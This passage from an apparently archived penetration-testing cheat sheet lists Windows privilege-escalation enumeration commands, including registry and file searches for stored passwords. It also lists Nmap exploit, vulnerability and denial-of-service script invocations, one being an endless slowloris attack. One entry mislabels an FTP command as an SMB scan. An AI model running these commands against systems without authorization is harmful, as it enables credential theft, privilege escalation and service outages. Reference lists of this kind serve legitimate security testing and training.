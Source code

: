     *   netsh firewall show config

    *   schtasks /query /fo LIST /v

    *   tasklist /SVC

    *   net start

    *   DRIVERQUERY

    *   reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

    *   reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

    *   dir /s _pass_ == _cred_ == _vnc_ == _.config_

    *   findstr /si password *.xml *.ini *.txt

    *   reg query HKLM /f password /t REG_SZ /s

    *   reg query HKCU /f password /t REG_SZ /s

*   Vulnerability Scanning with Nmap

*   Nmap Exploit Scripts  
    [_https://nmap.org/nsedoc/categories/exploit.html_](http://web.archive.org/web/20171113221652/https://nmap.org/nsedoc/categories/exploit.html)

*   Nmap search through vulnerability scripts  
    `cd /usr/share/nmap/scripts/ ls -l \*vuln\*`

*   Nmap search through Nmap Scripts for a specific keyword  
    `ls /usr/share/nmap/scripts/\* | grep ftp`

*   Scan for vulnerable exploits with nmap  
    `nmap --script exploit -Pn $ip`

*   NMap Auth Scripts  
    [_https://nmap.org/nsedoc/categories/auth.html_](http://web.archive.org/web/20171113221652/https://nmap.org/nsedoc/categories/auth.html)

*   Nmap Vuln Scanning  
    [_https://nmap.org/nsedoc/categories/vuln.html_](http://web.archive.org/web/20171113221652/https://nmap.org/nsedoc/categories/vuln.html)

*   NMap DOS Scanning  
    `nmap --script dos -Pn $ip NMap Execute DOS Attack nmap --max-parallelism 750 -Pn --script http-slowloris --script-args http-slowloris.runforever=true`

*   Scan for coldfusion web vulnerabilities  
    `nmap -v -p 80 --script=http-vuln-cve2010-2861 $ip`

*   Anonymous FTP dump with Nmap  
    `nmap -v -p 21 --script=ftp-anon.nse $ip-254`

*   SMB Security mode scan with Nmap  
    `nmap -v -p 21 --script=ftp-anon.nse $ip-254`

*   File Enumeration

    *   Find UID 0 files root execution
